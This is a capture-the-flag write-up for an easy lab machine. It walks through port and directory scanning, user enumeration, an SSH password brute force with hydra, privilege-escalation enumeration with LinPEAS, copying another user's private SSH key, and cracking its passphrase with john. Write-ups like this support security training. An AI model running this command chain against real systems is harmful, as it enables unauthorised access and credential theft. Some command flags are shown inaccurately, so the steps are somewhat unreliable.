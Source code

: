 # 💻 Basic Pentesting Challenge
**Difficulty:** Easy

## 📝 Challenge Overview
In this challenge, we have to use our web penetration and privilege escalation skills in order to gain as much information as we can about the server.
---

## 🔍 Step 1: Port && Directory Scanning
We start by scanning the target machine for open ports using `nmap`:

```bash
sudo nmap <IP_ADDR> 
```
![Nmap Scan Results](images/1.png)

```bash
gobuster dir -u http://<IP_ADDR> -w /usr/share/wordlist/rockyou.txt 
```
![Gobuster Scan Results](images/2.png)


✅ Findings:

Ports: 22, 80, 139, 445, 8009, 8080
Directories: development

## 🔍 Step 2: Search for users 
We start by scanning usign enum4linux to find users on the machine:

```bash
enum4linux -a  <IP_ADDR> 
```
![Enum Scan](images/3.png)

✅ Findings:
Unix User kay 
Unix User jan

## 🔍 Step 3: Brute-forcing the password
Using hydra, we can brute-force the password of the jan user:

```bash
hydra -l jan -w /usr/share/wordlist/rockyou.txt ssh://<IP_ADDR>
```
![Hydra Scan](images/4.png)

✅ Findings:
login: jan	password: armando

## 🔍 Step 4: Privilege escalation using LinPEAS
LinPeas or Linux Privilege Escalation Awesome Script follow the steps:

Install the LinPeas on the machine
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Copy the script on the target machine
```bash
scp linpeas.sh jan@<IP_ADDR>:/tmp/
```

Run on the target from /tmp/
```bash
./linpeas.sh
```
![LinPEAS](images/5.png)

✅ Findings:
/home/kay/.ssh/id_rsa with read option for any user

So now we will try to login as kay using his private key
Copy his private key on our machine
```bash
scp jan@<IP_ADDR>:/home/kay/.ssh/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kay@<IP_ADDR>
```

But we find that there is a pass phrase for the key. We can use John to break this passphrase and get into the kay's accout by doing the following:

![Scp key](images/6.png)

```bash
/opt/john/ssh2john.py id_rsa > key_rsa.txt
john key_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
``` 

![Breaking the passphrase](images/7.png)

So here we are logged as kay. Now we have just to cat the pass file and retrieve the flag:
![Final flag](images/8.png)


## Conclusion
This is a great basic penetration challenge to gain skills in privilege escalation and brute-forcing. 
